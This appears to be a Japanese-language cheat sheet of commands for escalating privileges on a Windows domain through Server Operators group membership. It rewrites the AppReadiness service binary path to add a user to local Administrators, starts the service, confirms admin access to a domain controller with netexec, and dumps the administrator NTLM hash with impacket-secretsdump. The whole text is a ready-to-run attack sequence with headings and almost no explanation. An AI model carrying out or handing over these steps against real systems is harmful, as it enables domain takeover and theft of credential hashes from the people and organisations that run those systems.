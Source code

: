 ```
Get-ADGroupMember -Identity "Server Operators"
```

## サービスバイナリパスの変更

バイナリ パスを変更して、現在のユーザーをデフォルトのローカル管理者グループに追加する

```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

## サービスの開始

このときサービスの開始は失敗するが大丈夫

```
sc start AppReadiness
```

## ローカル管理者グループのメンバーシップの確認

```
net localgroup Administrators
```

## ドメイン コントローラーでのローカル管理者アクセスの確認

```
netexec smb <targetip> -u <username> -p '<password>'
```

## ドメイン コントローラーから NTLM パスワード ハッシュを取得

```
impacket-secretsdump <username>@<targetip> -just-dc-user administrator
```